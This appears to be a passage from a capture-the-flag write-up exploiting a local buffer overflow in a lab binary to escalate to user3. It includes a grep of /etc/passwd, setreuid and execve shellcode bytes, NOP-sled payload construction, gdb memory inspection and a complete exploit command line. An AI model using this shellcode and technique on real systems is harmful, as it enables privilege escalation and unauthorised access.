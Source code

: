 We’ll use the same shellcode (158 bytes) as previously, with the SETREUID. This time, we need to target user3 (ID is 1003), to be able to read `secret.txt`:

find the setreuid
`grep <user> /etc/passwd`
```
<user>:x:1003:1003::/home/<user>:/bin/bash

pwn shellcraft -f d amd64.linux.setreuid 1003
\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
31ff66bfeb036a71584889fe0f05
```
payload =
NOP sled (90)  |  shellcode(54)  |  random chars (19)  |  Memory Address(6)
Total Length: 90 + 54 + 19 + 6 = 169

`payload = 'A'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*19 + 'C'*6`


run $(python -c "print('A'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*19 + 'C'*6)")

`(gdb) x/100x $rsp-200`
NOP sled: 0x41414141

shellcode: 0x58716a03

random chars: 0x42424242

return address: 0x00007fff

Let’s take **0x7fffffffe278** as return address (between future NOP sled and beginning of shell code).

```
./buffer-overflow-2 $(python -c "print('\x90'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*19 + '\x78\xe2\xff\xff\xff\x7f')")
```

wowanothertime!!





















